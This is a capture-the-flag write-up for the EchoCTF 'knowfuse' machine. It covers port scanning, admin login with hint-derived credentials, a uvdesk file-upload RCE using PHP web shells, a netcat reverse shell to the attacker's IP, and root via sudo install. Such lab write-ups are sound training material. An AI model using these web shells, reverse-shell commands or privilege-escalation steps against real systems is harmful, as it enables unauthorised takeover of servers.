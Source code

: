 # knowfuse Writeup for EchoCTF

In this writeup, we will be walking through the steps to exploit a vulnerable version of [uvdesk](https://www.uvdesk.com/en/) and escalate privileges to root on knowfuse in EchoCTF.

### Step One: Port Discovery

We use [Nmap](https://nmap.org/) to scan the open ports 

```
nmap -p1-10000 -sCV -n -Pn -v [TARGET_IP] 
```

*p1-10000: Scans ports 1 through 10,000.  
sCV: Combines service detection (-sV) with default script scans (-sC) to enumerate service versions and vulnerabilities.  
n: Skips DNS resolution for faster scanning.  
Pn: Treats the target as online without pinging, useful for firewalled hosts.*

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/nmap%20scan.png)

We see port **22** (SSH) and port **80** (HTTP)

### Step Two: Getting In

We visit the HTTP website (port 80).  
We are prompted to the login page for the uvdesk **customer**. Now, this one is a bit tricky in the sense that you need to find the admin login page, not the customer login page. Do find this, we need to look at the documentation of uvdesk, which can be found through quick online search. In any case, the login portal for this challenge can be found in this url:

```
http://[TARGET_IP]/uvdesk/public/en/member/login
```

We head over to the **member** login page, and it asks for credentials. But where do we find these?  
 *Given that now, unlike other challenges, the site asks for an email and there are no default credentials for uvdesk, this was hard to find.*  

Taking a look at the challenge description, we see the following:  
`The easiest way to install knowledge into you through the power of fusion. Its as easy as calling our Adm1n and counting 123#`

Three key takeaways from this:  
1) We need to 'call the admin', which probably means that the username is admin-at-something.com 
2) The password is something along the lines of 123#  
3) 'Adm1n' also looks like a password!  

So, after many attempts and a lot of time trying different combinations, we finally find the login credentials
``admin@knowfuse.echocity-f.com``

``Adm1n123#``

Great! We are in! But now what?  

*Searching online for a uvdesk exploit, we find that on version 1.1.1 there is 'RCE via file upload' vulnerability.*   
Perfect!  

#### Step Three: Exploit uvdesk

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/location.png)

Going to the knowledgebase part of the dashboard and clicking **+NEW FOLDER**, we find the vulnerable image upload field.  

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/file%20upload%20vulnerability.png)
Next step is to get a reverse shell on the server using the vulnerability we just found.  

First of all, we need to open [BurpSuite](https://portswigger.net/burp). 
We select a PNG image, and then capture the upload request that is sent by clicking **SAVE CHANGES**.

Insert a php script into your image that will enable you to get a reverse shell.  
For example:

```php
 <?php system ($_GET['cmd']) ?>
 ```
 or

 ```php
 <?php passthru($_GET['cmd']); __halt_compiler(); ?>
 ```

It should look something like this
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/php%20shell%20on%20burp.png)

With our php script uploaded, we need to set up a reverse shell, which is done like so:

Open the bash console and type

```
nc -nlvp [YOUR_PORT]
```

Then, in the url of the image (*which can be copy+pasted from the page source*), we insert this payload to get a reverse shell    

`.../filename.php?cmd= nc -e /bin/bash [YOUR_IP] [YOUR_PORT]`

After we've successfully created a reverse shell, we need to see how we can escalate our privileges to root.

### Step Four: Getting Root

We have a connection! To pwn the machine, we finally have to get root privileges. Lets see how this is done.  

If we run   
`sudo -l`  
the server returns `/usr/bin/install` 

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/sudo%20-l.png)

After searching on [GTFObins](https://gtfobins.github.io/), i found that the [install](https://gtfobins.github.io/gtfobins/install/#sudo) binary file can be used for privilege escalation when ran with sudo.  
So, we use the file `/bin/bash` to get root privileges.

```
LFILE=/bin/bash
TF=$(mktemp)
sudo install -m 6777 $LFILE $TF
$TF -p
```  
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/use%20of%20install%20binary%20for%20privilege%20escalation%20with%20proof%20(id).png)

And we have root!

### Final Thoughts

This challenge took me quite a while to complete, because figuring out how the install binary works was kind of tricky. Also, since I couldn't brute force or find the credentials, I actually had to use my brain for once.


From a techical standpoint, this challenge highlights how even a seemingly harmless file/command, could have devastating effects on a machine. By demonstrating such occurences in a virtual envirorment in a realistic fashion, we are able to learn how better to secure systems and servers.

PS: 
```
[YOUR_IP]= Your VPN IP 
[YOUR_PORT]= Custom port to use for netcat
[TARGET_IP]= IP of the machine you are hacking 
```
